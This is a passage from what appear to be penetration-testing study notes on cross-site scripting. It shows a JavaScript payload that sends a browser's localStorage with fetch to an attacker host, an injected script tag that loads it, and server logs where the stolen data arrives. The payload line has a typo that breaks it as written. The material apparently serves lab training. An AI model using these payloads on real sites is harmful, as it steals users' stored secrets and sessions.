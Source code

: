 If the cookie has the [`HttpOnly`](../../common-findings/cookie-flags.md) flag set, JavaScript cannot access it, thus, we can't exfiltrate its value.

```bash
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.198.101 - - [05/Aug/2024 12:15:53] "GET /xss.js HTTP/1.1" 200 -
192.168.198.101 - - [05/Aug/2024 12:15:53] code 404, message File not found
192.168.198.101 - - [05/Aug/2024 12:15:53] "GET /exfil?data= HTTP/1.1" 404 -
```

## Stealing Local Secrets

Browsers have two types of storage available: [`sessionStorage`](https://developer.mozilla.org/en-US/docs/Web/API/Window/sessionStorage) and [`localStorage`](https://developer.mozilla.org/en-US/docs/Web/API/Window/localStorage).

<table><thead><tr><th width="195">Type</th><th width="309">Description</th><th>Accessed by</th></tr></thead><tbody><tr><td><code>sessionStorage</code></td><td>Stores the data until the tab is closed</td><td><code>window.sessionStorage</code></td></tr><tr><td><code>localStorage</code></td><td>Stores the data until explicitly deleted</td><td><code>window.localStorage</code></td></tr></tbody></table>

To exfiltrate `localStorage`, we will convert the object into a string, URL-encode it, and use `fetch` to exfil the data.

{% code title="xssLocalStorage.js" %}
```javascript
let data = JSON.stringify(localStorage)
let encodedData - encodeURIComponent(data)
fetch("http://<attackerIP>/exfil?data=" + encodedData)
```
{% endcode %}

```javascript
// injected payload
<script src="http://192.168.45.214/xssLocalStorage.js"></script>
```

{% code overflow="wrap" %}
```bash
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.45.214 - - [05/Aug/2024 16:54:47] "GET /xssLocalStorage.js HTTP/1.1" 200 -
192.168.45.214 - - [05/Aug/2024 16:54:47] code 404, message File not found
192.168.45.214 - - [05/Aug/2024 16:54:47] "GET /exfil?data=%7B%22BROWSER_OPT_KEY%22%3A%22%7B%5C%22httpOnlyCookie%5C%22%3A%7B%5C%22title%5C%22%3A%5C%22Use%20HttpOnly%20Cookie%5C%22%2C%5C%22value%5C%22%3Afalse%7D%2C%5C%22nonHttpOnlyCookie%5C%22%3A%7B%5C%22title%5C%22%3A%5C%22Use%20Non-HttpOnly%20Cookie%5C%22%2C%5C%22value%5C%22%3Atrue%7D%2C%5C%22phishing%5C%22%3A%7B%5C%22title%5C%22%3A%5C%22Blindly%20enter%20credentials%5C%22%2C%5C%22value%5C%22%3Afalse%7D%2C%5C%22savedPasswords%5C%22%3A%7B%5C%22title%5C%22%3A%5C%22Use%20stored%20password%5C%22%2C%5C%22value%5C%22%3Afalse%7D%2C%5C%22keyStrokes%5C%22%3A%7B%5C%22title%5C%22%3A%5C%22Simulate%20keystrokes%5C%22%2C%5C%22value%5C%22%3Afalse%7D%2C%5C%22localStorage%5C%22%3A%7B%5C%22title%5C%22%3A%5C%22Data%20in%20Local%20Storage%5C%22%2C%5C%22value%5C%22%3Afalse%7D%7D%22%7D HTTP/1.1" 404 -
```
{% endcode %}

